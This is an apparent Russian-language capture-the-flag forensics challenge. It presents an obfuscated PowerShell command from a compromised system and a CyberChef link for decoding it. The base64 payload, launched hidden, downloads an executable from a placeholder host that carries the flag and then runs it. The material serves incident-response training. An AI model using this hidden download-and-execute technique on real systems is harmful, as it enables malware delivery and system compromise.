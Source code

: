 # My Logs Know What You Did

Во время расследования инцидента вы обнаруживаете подозрительную команду PowerShell,
которая была запущена в скомпрометированной системе ... вы можете понять, что она
делала?

    C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -noP -sta -w 1 -enc TmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRGaWxlKCdodHRwOi8vTWV0YUNURntzdXBlcl9zdXNfc3Q0Z2luZ19zaXRlX2QwdF9jMG19L19iYWQuZXhlJywnYmFkLmV4ZScpO1N0YXJ0LVByb2Nlc3MgJ2JhZC5leGUn

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=VG1WM0xVOWlhbVZqZENCVGVYTjBaVzB1VG1WMExsZGxZa05zYVdWdWRDa3VSRzkzYm14dllXUkdhV3hsS0Nkb2RIUndPaTh2VFdWMFlVTlVSbnR6ZFhCbGNsOXpkWE5mYzNRMFoybHVaMTl6YVhSbFgyUXdkRjlqTUcxOUwxOWlZV1F1WlhobEp5d25ZbUZrTG1WNFpTY3BPMU4wWVhKMExWQnliMk5sYzNNZ0oySmhaQzVsZUdVbg)
